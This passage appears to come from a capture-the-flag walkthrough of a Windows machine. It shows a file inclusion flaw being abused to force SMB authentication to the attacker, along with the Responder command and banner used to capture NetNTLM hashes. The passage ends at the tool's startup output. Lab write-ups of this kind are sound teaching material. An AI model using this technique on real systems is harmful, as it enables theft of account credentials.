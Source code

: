 This might be vulnerable to file inclusion.

![](./attachments/Pasted%20image%2020220413133157.png)

It is! Since this is a window computer we can trick it into initializing the SMB protocol by providing it with a random path to our local machine. During the initial SMB key exchange, we might be able to grab the NetNTLMv (hash) corresponding to a privileged account. We can utilize a tool called 'Responder' to set up an SMB server and grab what we need.

![](./attachments/Pasted%20image%2020220413140044.png)

```console
┌──(kali㉿kali)-[~/Downloads/Responder]
└─$ sudo python3 Responder.py -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.1.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]

[+] HTTP Options:
```